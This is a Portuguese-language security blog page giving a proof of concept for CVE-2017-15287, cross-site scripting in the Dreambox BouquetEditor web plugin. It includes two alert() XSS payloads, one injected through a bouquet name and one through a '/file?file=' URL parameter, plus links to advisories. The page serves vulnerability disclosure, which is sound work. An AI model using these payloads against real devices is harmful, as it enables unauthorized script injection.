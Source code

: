 ```yaml
---
title: CVE
permalink: "/cve/"
layout: page
---
```


<h2>[CVE-2017-15287] Vulnerability XSS - Dreambox</h2>

<p>Prova de Conceito (Proof of Concept - PoC), que virou o <a href="http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-15287" target="_blank" rel="noopenner noreferrer">CVE-2017-15287</a> por Thiago “THX”.</p>

<h3 id="sobre-o-software">Sobre o Software:</h3>

<p>O Dreambox é um produto da Dream-Multimedia-TV (DMM), que é desenvolvido por receptores baseados em Linux sob o nome Dreambox.</p>

<h3 id="as-vulnerabilidades">As vulnerabilidades:</h3>

<h4 id="vulnerabilidade-1">Vulnerabilidade 1</h4>

<p>O XSS está presente em duas áreas, sendo que na primeira área a vulnerabilidade se encontra em um WebPlugin chamado “BouquetEditor”:</p>

<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code>URL: http://IP:PORT/bouqueteditor/
</code></pre></div></div>

<p>Passos:</p>

<ol>
  <li>Na aba Bouquets, ira adicionar uma nova bouquet</li>
</ol>

<p><img src="https://fireshellsecurity.team/assets/images/posts/xxs/1.png" alt="Passo 1" /></p>

<ol>
  <li>Assim, irar colocar o script:</li>
</ol>

<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code>(&lt;script&gt;alert('XSS')&lt;/script&gt;)
</code></pre></div></div>

<p><img src="https://fireshellsecurity.team/assets/images/posts/xxs/2.png" alt="Passo 2" /></p>

<ol>
  <li>Vulnerability XSS</li>
</ol>

<p><img src="https://fireshellsecurity.team/assets/images/posts/xxs/3.png" alt="Passo 3" /></p>

<h4 id="vulnerabilidade-2">Vulnerabilidade 2</h4>

<p>A segunda falha consiste em colocar a variavel abaixo depois da url (http://IP:PORT)</p>

<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code>Variavel :/file?file=%3CBODY%20ONLOAD=alert(%27XSS%27)%3E
</code></pre></div></div>

<p><img src="https://fireshellsecurity.team/assets/images/posts/xxs/4.png" alt="XSS via endereço" /></p>

<h3 id="compartilhamentos">Compartilhamentos:</h3>

<p>Sites que já compatilharam o CVE:</p>

<p><a href="https://fr.0day.today/exploit/description/28784" target="_blank" rel="noopenner noreferrer">0day</a></p>

<p><a href="https://www.certsi.es/alerta-temprana/vulnerabilidades/cve-2017-15287" target="_blank" rel="noopenner noreferrer">CERTSI</a></p>

<p><a href="https://cxsecurity.com/issue/WLB-2017100103" target="_blank" rel="noopenner noreferrer">CXSecurity</a></p>

<p><a href="https://www.exploit-db.com/exploits/42986/" target="_blank" rel="noopenner noreferrer">Exploit Database</a></p>

<p><a href="http://exploit.kitploit.com/2017/10/dreambox-plugin-bouqueteditor-cross.html" target="_blank" rel="noopenner noreferrer">Exploit Kitploit</a></p>

<p><a href="https://hackertor.com/2017/10/12/na-cve-2017-15287-there-is-xss-in-the-bouqueteditor-webplugin-for/" target="_blank" rel="noopenner noreferrer">HackerTor</a></p>

<p><a href="https://nvd.nist.gov/vuln/detail/CVE-2017-15287" target="_blank" rel="noopenner noreferrer">NVD</a></p>

<p><a href="https://packetstormsecurity.com/files/144604/dreambox200be-xss.txt" target="_blank" rel="noopenner noreferrer">PacketStorm</a></p>

<p><a href="https://www.security-database.com/detail.php?alert=CVE-2017-15287&amp;utm_source=feedburner&amp;utm_medium=feed&amp;utm_campaign=Feed:+Last100Alerts+(Security-Database+Alerts+Monitor+:+Last+100+Alerts)" target="_blank" rel="noopenner noreferrer">Security Database</a></p>

<p><a href="https://www.secnews24.com/2017/10/12/cve-2017-15287-there-is-xss-in-the-bouqueteditor-webplugin-for-dream-multimedia-dreambox-devices-as-demo/" target="_blank" rel="noopenner noreferrer">SecNews24</a></p>

<p><a href="https://tsecurity.de/de/215878/Reversing-Engineering/Exploits/Dream-Multimedia-Dreambox-/file-Cross-Site-Scripting/" target="_blank" rel="noopenner noreferrer">TSecurity</a></p>

<p><a href="https://vuldb.com/fr/?id.107825" target="_blank" rel="noopenner noreferrer">VulDB</a></p>


